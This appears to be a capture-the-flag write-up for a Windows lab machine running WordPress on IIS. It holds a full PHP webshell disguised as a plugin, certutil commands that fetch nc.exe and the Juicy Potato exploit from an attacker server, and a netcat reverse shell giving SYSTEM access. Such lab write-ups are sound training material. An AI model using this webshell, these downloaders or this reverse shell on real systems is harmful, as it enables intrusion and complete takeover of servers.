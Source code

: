 # Shield (starting point)

## Enumeration

```bash
80/tcp   open  http    Microsoft IIS httpd 10.0
3306/tcp open  mysql   MySQL (unauthorized)
Microsoft Windows Server 2016 (91%)
```

```bash
gobuster dir -u 10.10.10.29 -w /usr/share/dirbuster-ng/wordlists/common.txt
```

> http://10.10.10.29/wordpress/wp-login.php

## Entry

We test every password found on previous machines:

> `admin` / `P@s5w0rd!` works

We can now plant a webshell as a wordpress plugin:

```php
<?php

/**
* Plugin Name: Shiny
* Plugin URI:
* Description: Sneaky
* Version: 1.4
* Author: Apehex
* Author URI: http://apehex.github.io
 */

$c=chr(99);if(isset($_GET[$c]))system($_GET[$c]); ?>
```

Activating the plugin triggers an error and reveals the location of the scripts:

> `/wordpress/wp-content/plugins/shiny-plugin/webshell.php`

I actually find this more comfortable than piping a cmd through `ncat` because
I can go back & forth with the browser history.

All the upcoming commands are actually executed via urls similar to:

`http://10.10.10.29/wordpress/wp-content/plugins/shiny-plugin/webshell.php?c=certutil -urlcache -split -f "http://10.10.16.47:8000/nc.exe" nc.exe`

I'll omit the base url for the sake of readability.

## Privilege Escalation

### Finding the vector

`whoami /priv` tells us that we have `SeImpersonatePrivilege` and `SeCreateGlobalPrivilege`
privileges.

We can run the [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) exploit.

### Transfering the material

But let's play a little more ^^

```
# attacker (BlackArch)
python -m http.server
# target (Windows)
certutil -urlcache -split -f "http://10.10.16.47:8000/winpeas.exe" winpeas.exe
certutil -urlcache -split -f "http://10.10.16.47:8000/nc.exe" nc.exe
certutil -urlcache -split -f "http://10.10.16.47:8000/juicy-potato.exe" js.exe
```

By curiosity, and to learn about other vectors, we launch `winpeas.exe`.

The report can be saved via the browser, which is yet another practical
advantage of using a webshell.

### The juicy exploit

The exploit is best described by [FoxGlove Security][floxglove-rotten-potato], I will only
describe the practical steps.

Since the command is long, we split it in 2 batch files, the wrapper which
elevates the privileges of the wrappee:

```
.\js.exe -t * -l 1337 -p .\ps.bat -c {d20a3293-3341-4ae8-9aaf-8e397cb63c34}
```

```
START .\nc.exe -e powershell.exe 10.10.16.47 1234
```

The CLSID that worked for me:

> `{d20a3293-3341-4ae8-9aaf-8e397cb63c34}`

From the admin powershell we can move to `C:\Users\Administrator\Desktop\` and
find the flag:

`type root.txt` (equivalent of cat)

[foxglove-rotten-potato]: https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
